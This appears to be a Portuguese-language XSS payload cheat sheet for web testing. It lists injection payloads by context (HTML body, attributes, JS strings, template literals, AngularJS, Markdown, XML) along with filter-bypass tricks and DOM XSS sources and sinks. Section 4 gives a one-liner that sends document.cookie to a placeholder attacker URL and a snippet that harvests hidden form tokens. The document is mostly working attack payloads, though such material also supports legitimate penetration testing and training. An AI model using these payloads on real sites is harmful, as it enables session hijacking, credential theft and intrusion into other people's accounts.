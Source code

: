 
#### 1. Basic Payload per Contexts

- **HTML Injection (Body)**
	- **Quando Usar?:** Reflexão direta no HTML, fora de qualquer tag.
	- **Payload:** `<img src=1 onerror=alert(1)>`
	- **Por que funciona:** IMG é uma tag HTML5 que permite eventos onload e é menos filtrada que `<script>`, assim como `SVG`, `IFRAME`
- **HTML Injection (Attribute):**
	- **Quando Usar?:** Reflexão dentro de `value="..."`, `class="..."`, etc.
	- **Payload:** `" onmouseover=alert(1) //`
	- **Por que funciona:** Escapa do atributo com aspas e cria um novo atributo de evento.
- **HTML Injection (Dentro de ``href/src/action``)**
	- **Quando Usar?:** Reflexão dentro de um atributo que espera uma URL
	- **Payload:** `javascript:alert(1)`
	- **Por que funciona:** Usa o pseudo-protocolo `javascript:` que o navegador executa ao invés de navegar.
- **Javascript Injection (Dentro de String JS)**
	- **Quando Usar?:** Reflexão dentro de `<script>var x = '...';</script>`
	- **Payload:** `'-alert(1)-'`.
	- **Por que funciona:** Escapa do contexto da string JS para injetar código executável.

#### 2. Bypass de Filtros Comuns

- **Filtro: Bloqueio de `<script>`, `onerror` e `onload`**
	- **Técnica:** Use ofuscação, casos mistos e tags/eventos menos comuns.
	- **Payload:** `<details open ontoggle=alert(1)>`
	- **Payload:** `<Svg OnLoad=alert(1)>`
	- **Payload:** `<script/x>alert(1)</script>`
	- **Payload:** `<svg/on<script>load=alert(1)` : Se o filtro remove "script", este payload vira `<svg/onload=alert(1)>`
	- **Payload:** `<svg><set onbegin=alert(1)>`.
	- **Payload:** `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text/></a>`
	- **Payload:** ``<svg><animateTransform onbegin=alert(1) attributeName="transform" type="rotate" from="0" to="0" dur="1s" />``
- **Filtro: Bloqueio de Parênteses `()`**
	- **Técnica:** Usar acento grave (template literals).
	- **Payload:** ```alert `1` ```
	- **Payload:** `onerror=alert;throw 1`
	- **Payload:** `x=x=>{throw/**/onerror=alert,1},toString=x,window+'',{x:'`
- **Filtro: Bloqueio da palavra "alert"**
	- **Técnica:** Obfuscação e métodos alternativos.
	- **Payload:** `top["al"+"ert"](1)`
	- **Payload:** `(confirm)(1)` (Variação de `alert(1)`).
- **Filtro: Encode de `<` e `>`
	- **Técnica:** Focar em bypass de contexto.
	- **Payload:** `" autofocus onfocus=alert() x="`
	- **Payload:** `" onmouseup="alert()`
- **Filtro: Escape de aspas simples, aspas duplas e barra invertida**
	- **Técnica:** Usar eventos sem aspas ou codificar valores.
	- **Payload:** `onmouseover=alert(1)`
	- **Payload:** `\';alert()//`
	- **Payload:** `&apos;-alert(document.domain)-&apos;`
	- 
#### 3. DOM XSS

- **Fonte Comum:** `location.hash`
	- **Quando Usar?:** Quando o JS da página usa o conteúdo após o `#` da URL.
	- **Técnica:** Inserir HTML no hash, pois ele não é enviado ao servidor e, portanto, não é sanitizado no server-side
	- **Exemplo de URL de Ataque:** `http://alvo.com/page#<img src=x onerror=alert(1)>` 
- **Fonte Comum:** `postMessage()`
	- **Quando Usar?:** Quando uma página usa `window.addEventListener('message', ...)` sem validar a origem.
	- **Técnica:** Criar um `iframe` e enviar uma mensagem maliciosa para a janela pai.
	- **Payload:** `<iframe src=TARGET_URL onload="frames[0].postMessage('INJECTION', '*')">`.
- **Fonte comum:** `attr()`
	- **Quando Usar?:** Quando uma página usa a função `attr()` do Jquery para retornar para uma página
	- **Técnica:** Inserir o payload `javascript:` no lugar do link de retorno.
	- **Payload:** `?returnUrl=javascript:alert(document.domain)`

- **Sinks:**
	- document.write()
	- document.writeln()
	- document.domain
	- element.innerHTML
	- element.outerHTML
	- element.insertAdjacentHTML
	- element;onevent
- **jQuery Sinks**
	- - add()
	- after()
	- append()
	- animate()
	- insertAfter()
	- insertBefore()
	- before()
	- html()
	- prepend()
	- replaceAll()
	- replaceWith()
	- wrap()
	- wrapInner()
	- wrapAll()
	- has()
	- constructor()
	- init()
	- index()
	- jQuery.parseHTML()
	- $.parseHTML()

#### 4. Poliglotas e One-Liners Úteis

Aqui não são payloads, mas snippets de JavaScript para quando você já conseguiu a execução;

- **Roubar Cookies:** `fetch('//sua-url.com/?c='+document.cookie)`
- **Roubar Tokens de Forms:** `var f=document.forms;for(i=0;i<f.length;i++){e=f[1].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+':'+e[n].value)}}}`.
- **Poliglota zseano:** `<s>000'")};--//`
	- `<s>`(teste de tag HTML)
	- `"` e `'` (fechamento de atributos)
	- `)` (fechamento de função JS)
	- `};` (fechamento de bloco JS)
	- `--` (comentario SQL)
- **Poliglota de HTML brute lojic:** ```</Script/--><Body/Autofocus/OnFocus = confirm `1```

#### 5. Payloads para Contextos Especificos

- **Dentro de Template Literals JavaScript**
	- **Contexto:** O input reflete dentro de uma string JS delimitada por acentos graves (\`)
	- **Payload:** `${alert(1)}`. Extremamente eficas em frameworks JS modernos.
- **Dentro de Frameworks Especificos:**
	- **Contexto:** A página usa AngularJS.
	- **Payload:** `{{\$new.constructor('alert(1)')()}}` ( para v1.6+)
	- **Payload:** `'a'.constructor.prototype.charAt=[].join` ( para escape sandbox)
	- **Payload:** `[123]|orderBy:expression` (Para caso não possa utilizar $eval)
	- **Payload:** `(true.toString()).constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1` (bypass de filtros, x=alert(1)=1, chama alert(1))
	- Nota: Junte as tecnicas.
- **Contexto de Markdown:**
	- **Quando Usar?:** Em campos de comentário ou descrição que aceitam Markdown.
	- **Payload:** ```[clickme](javascript:alert`1`)```
- **Contexto de XML/SVG**
	- **Quando Usar?:** Quando o `Content-Type` da resposta é `application/xml` ou `text/xml`
	- **Payload:** `<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>`